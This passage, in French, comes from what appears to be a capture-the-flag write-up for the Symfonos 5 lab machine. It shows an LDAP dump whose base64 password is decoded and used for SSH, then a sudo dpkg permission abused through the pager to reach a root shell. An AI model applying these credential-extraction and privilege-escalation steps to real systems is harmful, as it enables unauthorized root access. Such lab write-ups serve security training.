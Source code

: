 ```shellsession

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3
```

Le mot de passe de `zeus` qui se décode en `cetkKf4wCuHC9FET` permet de se connecter via SSH.

## Et là tout va très vite

```shellsession
$ zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Via cette permission sudo on peut exploiter un `GTFObin` (voir https://gtfobins.github.io/gtfobins/dpkg/#shell ). `dpkg -l` appelle le pager `less` et ce dernier permet d'appeller une commande avec le point d'exclamation :

```shellsession
zeus@symfonos5:~$ sudo /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                     Architecture Description
+++-=============================-===========================-============-===============================================================================
ii  adduser                       3.118                       all          add and remove users and groups
ii  ame                           1.0                         amd64        no description given
ii  apparmor                      2.13.2-10                   amd64        user-space parser utility for AppArmor
```